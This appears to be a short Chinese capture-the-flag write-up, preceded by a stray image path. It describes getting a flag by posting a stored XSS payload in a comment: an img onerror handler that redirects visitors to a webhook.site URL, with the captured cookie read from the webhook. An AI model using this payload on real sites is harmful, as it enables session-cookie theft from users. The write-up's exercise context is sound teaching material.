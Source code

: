 使用Webhook获取接受cookie的平台。

在comment中提交以下内容：

```javascript
<img src=x onerror="location.href='https://webhook.site/2e5eb7e5-8fdd-4d92-9baa-cdb287d1862a'">
```

在Webhook中查看请求及cookie，得到FLAG。